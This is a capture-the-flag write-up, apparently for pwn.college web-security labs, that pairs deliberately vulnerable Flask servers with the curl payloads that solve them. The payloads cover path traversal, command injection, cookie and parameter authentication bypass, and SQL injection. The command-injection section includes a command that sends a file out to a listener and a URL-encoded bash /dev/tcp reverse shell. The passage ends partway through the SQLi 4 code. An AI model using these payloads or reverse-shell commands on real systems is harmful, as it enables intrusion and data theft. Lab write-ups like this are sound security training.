# Web Security

## Path Traversal 1

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


@app.route("/public", methods=["GET"])
@app.route("/public/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```


```
hacker@web-security~path-traversal-1:~$ curl -v 'http://challenge.localhost/public/..%2f..%2fflag'
* Host challenge.localhost:80 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:80...
* connect to ::1 port 80 from ::1 port 57988 failed: Connection refused
*   Trying 127.0.0.1:80...
* Connected to challenge.localhost (127.0.0.1) port 80
* using HTTP/1.x
> GET /public/..%2f..%2fflag HTTP/1.1
> Host: challenge.localhost
> User-Agent: curl/8.14.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.6 Python/3.8.10
< Date: Thu, 23 Oct 2025 21:17:34 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 60
< Connection: close
< 
pwn.college{M4aJtSL8Z_dCgZsa2369eDHnlpD.QX3gzMzwyMyITOyEzW}
* shutting down connection #0
```

```
hacker@web-security~path-traversal-1:~$ /challenge/server 
 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
DEBUG: requested_path='/challenge/files/index.html'
127.0.0.1 - - [23/Oct/2025 20:53:10] "GET /public HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2025 20:53:21] "GET /server HTTP/1.1" 404 -
127.0.0.1 - - [23/Oct/2025 20:53:37] "GET /flag.txt HTTP/1.1" 404 -
127.0.0.1 - - [23/Oct/2025 20:55:01] "GET /flag HTTP/1.1" 404 -
127.0.0.1 - - [23/Oct/2025 20:55:26] "GET /flag HTTP/1.1" 404 -
127.0.0.1 - - [23/Oct/2025 20:55:28] "GET /flag HTTP/1.1" 404 -
127.0.0.1 - - [23/Oct/2025 20:57:03] "GET /flag HTTP/1.1" 404 -
127.0.0.1 - - [23/Oct/2025 20:57:12] "GET /flag HTTP/1.1" 404 -
DEBUG: requested_path='/challenge/files/..'
127.0.0.1 - - [23/Oct/2025 20:57:22] "GET /public%2f.. HTTP/1.1" 500 -
DEBUG: requested_path='/challenge/files/../server'
127.0.0.1 - - [23/Oct/2025 20:58:38] "GET /public%2f..%2fserver HTTP/1.1" 200 -
DEBUG: requested_path='/challenge/files/../../flag'
127.0.0.1 - - [23/Oct/2025 20:59:03] "GET /public%2f..%2f..%2fflag HTTP/1.1" 200 -
```

**Why URL encoding (%2f) worked:**
- Flask routes `/public/<path:path>` before URL decoding
- `%2f` stays encoded during routing, so entire `..%2f..%2fflag` passes to `path` variable  
- **After** routing, `%2f` decodes to `/`, making `path = "../../flag"`
- Final path: `/challenge/files/../../flag` → traverses correctly

**Why normal slashes (/) failed:**
- `/public/../../flag` gets path-normalized **during** Flask routing
- `../` navigates "up" in URL structure before reaching your handler
- Router may reject or malform the path before your code sees it

**Key insight:** URL encoding bypasses Flask's path normalization in the router.

## Path Traversal 2

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


@app.route("/cdn", methods=["GET"])
@app.route("/cdn/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

The `strip` method in `python` only takes the border out. We just have to have one directory as prefix.

```
hacker@web-security~path-traversal-2:/challenge$ ls
DESCRIPTION.md  files  server
hacker@web-security~path-traversal-2:/challenge$ ls files
fortunes  index.html
hacker@web-security~path-traversal-2:/challenge$ ls files/fortunes/
fortune-1.txt  fortune-2.txt  fortune-3.txt
hacker@web-security~path-traversal-2:/challenge$ cd
hacker@web-security~path-traversal-2:~$ curl 'http://challenge.localhost/cdn/fortunes/fortune-1.txt'
You can observe a lot just by watching.
                -- Yogi Berra
hacker@web-security~path-traversal-2:~$ curl 'http://challenge.localhost/cdn/fortunes%2f..%2f..%2f..%2fflag'
pwn.college{olO_bJCmzNBOWbSv-X9czlFyrfc.QXyYTN2wyMyITOyEzW}
```

## CMDi 1

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/checkpoint", methods=["GET"])
def challenge():
    arg = flask.request.args.get("root", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/checkpoint"><input type=text name=root><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@web-security~cmdi-1:/challenge$ curl 'http://challenge.localhost/checkpoint?root=/+>/dev/null;cat+/flag'

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/checkpoint"><input type=text name=root><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l / >/dev/null;cat /flag:</b><br>
        <pre>pwn.college{w0fouVfqArTuvlJ0DQfGT6WVYZN.QX1YTN2wyMyITOyEzW}
</pre>
        </body></html>
```

## CMDi 2

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/puzzle", methods=["GET"])
def challenge():
    arg = flask.request.args.get("folder", "/challenge").replace(";", "")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/puzzle"><input type=text name=folder><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We use `&&` instead of `;`. The URL encoded char `&` is `%26`.

```
hacker@web-security~cmdi-2:~$ curl 'http://challenge.localhost/puzzle?folder=/+>/dev/null+%26%26+cat+/flag'

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/puzzle"><input type=text name=folder><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l / >/dev/null && cat /flag:</b><br>
        <pre>pwn.college{8hJp4DlDsH-EHvWYRApi8ST1HUa.QX0YTN2wyMyITOyEzW}
</pre>
        </body></html>
```

## CMDi 3

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/initiative", methods=["GET"])
def challenge():
    arg = flask.request.args.get("destination", "/challenge")
    command = f"ls -l '{arg}'"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/initiative"><input type=text name=destination><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

The `'` URL encoded is `%27`.

```
hacker@web-security~cmdi-3:/challenge$ curl 'http://challenge.localhost/initiative?destination=.%27+>/dev/null;cat+%27/flag'

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/initiative"><input type=text name=destination><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l '.' >/dev/null;cat '/flag':</b><br>
        <pre>pwn.college{Q5Cg1-qhyblJil45KrMQWJV8ptk.QX2YTN2wyMyITOyEzW}
</pre>
        </body></html>
```

```
hacker@web-security~cmdi-3:/challenge$ /challenge/server
 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
DEBUG: command="ls -l '.' >/dev/null;cat '/flag'"
127.0.0.1 - - [02/Nov/2025 16:27:23] "GET /initiative?destination=.'+>/dev/null;cat+'/flag HTTP/1.1" 200 -
```

## CMDi 4

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/event", methods=["GET"])
def challenge():
    arg = flask.request.args.get("tzid", "MST")
    command = f"TZ={arg} date"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form action="/event"><input type=text name=tzid><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@web-security~cmdi-4:~$ curl 'http://challenge.localhost/event?tzid=America/Sao_Paulo;cat+/flag'

        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form action="/event"><input type=text name=tzid><input type=submit value=Submit></form>
        <hr>
        <b>Output of TZ=America/Sao_Paulo;cat /flag date:</b><br>
        <pre>pwn.college{UMv5TfqDeTdN2zvb6SVwzy4YbW8.QX4gzMzwyMyITOyEzW}
cat: date: No such file or directory
</pre>
        </body></html>
```

## CMDi 5

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/test", methods=["GET"])
def challenge():
    arg = flask.request.args.get("target-file", "/challenge/PWN")
    command = f"touch {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/test"><input type=text name=target-file><input type=submit value=Submit></form>
        <hr>
        <b>Ran {command}!</b><br>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@web-security~cmdi-5:~$ curl 'http://challenge.localhost/test?target-file=/tmp/test_file_right;curl+http://localhost:9001?flag=$(cat+/flag)'
```

```
hacker@web-security~cmdi-5:~$ python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
127.0.0.1 - - [02/Nov/2025 16:40:21] "GET /?flag=pwn.collegekWNBfLG1xudXNimqb61aNGg59nq.QX3YTN2wyMyITOyEzW HTTP/1.1" 200 -
```

Flag: `pwn.college{kWNBfLG1xudXNimqb61aNGg59nq.QX3YTN2wyMyITOyEzW}`

### Payload to get reverse shell

The reverse shell I used was `bash -c "bash -i >& /dev/tcp/localhost/9001 0>&1"` URL encoded.

```
hacker@web-security~cmdi-5:~$ curl 'http://challenge.localhost/test?target-file=/tmp/test_file_right;bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2Flocalhost%2F9001%200%3E%261%22'
```


```
hacker@web-security~cmdi-5:~$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53252
root@web-security~cmdi-5:/home/hacker# cat /flag
cat /flag
pwn.college{kWNBfLG1xudXNimqb61aNGg59nq.QX3YTN2wyMyITOyEzW}
root@web-security~cmdi-5:/home/hacker#
```

## CMDi 6

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/step", methods=["GET"])
def challenge():
    arg = (
        flask.request.args.get("start", "/challenge")
        .replace(";", "")
        .replace("&", "")
        .replace("|", "")
        .replace(">", "")
        .replace("<", "")
        .replace("(", "")
        .replace(")", "")
        .replace("`", "")
        .replace("$", "")
    )
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/step"><input type=text name=start><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We bypass it with a simple `\n` character URL encoded `%0a`:
```
hacker@web-security~cmdi-6:~$ curl 'http://challenge.localhost/step?start=dotnotexist+%0acat+/flag'

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/step"><input type=text name=start><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l dotnotexist
cat /flag:</b><br>
        <pre>ls: cannot access 'dotnotexist': No such file or directory
pwn.college{Ur5Yj0CQsQfFx3LvOecuhB__kjO.QX0cTN2wyMyITOyEzW}
</pre>
        </body></html>
```

## Authentication Bypass 1

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

# Don't panic about this class. It simply implements a temporary database in which
# this application can store data. You don't need to understand its internals, just
# that it processes SQL queries using db.execute().
class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? AS password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" AS username, "password" AS password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    return flask.redirect(f"""{flask.request.path}?session_user={username}""")


@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.args.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

Very simple, the `session_user` is just the name of the user.

```
hacker@web-security~authentication-bypass-1:/challenge$ curl 'http://challenge.localhost?session_user=admin'
<html><body>Hello, admin!<br>Here is your flag: pwn.college{8IQ1NM9p-HN3ZWbJ-KWLCaQzo9R.QX5gzMzwyMyITOyEzW}

        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
```

## Authentication Bypass 2

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    response = flask.redirect(flask.request.path)
    response.set_cookie('session_user', username)
    return response

@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.cookies.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

Same thing, but with a cookie `session_user=admin`.

```
hacker@web-security~authentication-bypass-2:/challenge$ curl -b 'session_user=admin' http://challenge.localhost
<html><body>Hello, admin!<br>Here is your flag: pwn.college{s2_VBzuexbvTD2euBSApy0iD_tc.QXycTN2wyMyITOyEzW}

        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
```

## SQLi 1

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import random
import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as pin""", [random.randrange(2**32, 2**63)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, 1337 as pin""")


@app.route("/logon", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("uid")
    pin = flask.request.form.get("pin")
    if not username:
        flask.abort(400, "Missing `uid` form parameter")
    if not pin:
        flask.abort(400, "Missing `pin` form parameter")

    if pin[0] not in "0123456789":
        flask.abort(400, "Invalid pin")

    try:
        # https://www.sqlite.org/lang_select.html
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND pin = { pin }"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or pin")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)


@app.route("/logon", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=uid>Pin:<input type=text name=pin><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@web-security~sqli-1:~$ curl -i -X POST --data "uid=admin&pin=1+OR+1=1" http://challenge.localhost/logon
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 02 Nov 2025 17:58:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /logon
Vary: Cookie
Set-Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aQebyA.ce4LVEnJmsdBr8YLG1vQ0JOirX4; HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/logon">/logon</a>. If not, click the link.
hacker@web-security~sqli-1:~$ curl -b 'session=eyJ1c2VyIjoiYWRtaW4ifQ.aQebyA.ce4LVEnJmsdBr8YLG1vQ0JOirX4' http://challenge.localhost/logon
<html><body>Hello, admin!<br>Here is your flag: pwn.college{8X55ZO7FrQdOczorfr28P7NbJmI.QXzcTN2wyMyITOyEzW}

        <hr>
        <form method=post>
        User:<input type=text name=uid>Pin:<input type=text name=pin><input type=submit value=Submit>
        </form>
        </body></html>
```

## SQLi 2

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, 'password' as password""")


@app.route("/user-login", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("user")
    password = flask.request.form.get("security-token")
    if not username:
        flask.abort(400, "Missing `user` form parameter")
    if not password:
        flask.abort(400, "Missing `security-token` form parameter")

    try:
        # https://www.sqlite.org/lang_select.html
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{ password }'"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)


@app.route("/user-login", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=user>Password:<input type=text name=security-token><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@web-security~sqli-2:~$ curl -i -X POST -d "user=admin&security-token=a'+OR+'1'='1" http://challenge.localhost/user-login
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 02 Nov 2025 18:02:28 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: /user-login
Vary: Cookie
Set-Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aQectA.a9mMDuiNr_M-V4cJtC-a8WjqVUg; HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/user-login">/user-login</a>. If not, click the link.
hacker@web-security~sqli-2:~$ curl -b "session=eyJ1c2VyIjoiYWRtaW4ifQ.aQectA.a9mMDuiNr_M-V4cJtC-a8WjqVUg" http://challenge.localhost/user-login
<html><body>Hello, admin!<br>Here is your flag: pwn.college{gCt6RsSuk8XVkjwaZn7RDMjBKqA.QXwkzMzwyMyITOyEzW}

        <hr>
        <form method=post>
        User:<input type=text name=user>Password:<input type=text name=security-token><input type=submit value=Submit>
        </form>
        </body></html>
```

```
hacker@web-security~sqli-2:~$ /challenge/server
 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = 'a' OR '1'='1'"
127.0.0.1 - - [02/Nov/2025 18:02:28] "POST /user-login HTTP/1.1" 302 -
127.0.0.1 - - [02/Nov/2025 18:02:54] "GET /user-login HTTP/1.1" 200 -
```

## SQLi 3

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:

        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We do a `UNION` query:

```
hacker@web-security~sqli-3:~$ curl "http://challenge.localhost/?query=admin\"+UNION+SELECT+password+FROM+users--+-"

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT password FROM users-- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM users WHERE username LIKE "admin" UNION SELECT password FROM users-- -"</pre><br>
        <b>Results:</b><pre>admin
password
pwn.college{8YP3Oih_bmINxhHT1NQgLu0Gz8K.QXxkzMzwyMyITOyEzW}
</pre>
        </body></html>
```

## SQLi 4

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import random
import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

random_user_table = f"users_{random.randrange(2**32, 2**33)}"
db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/schematab.html
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
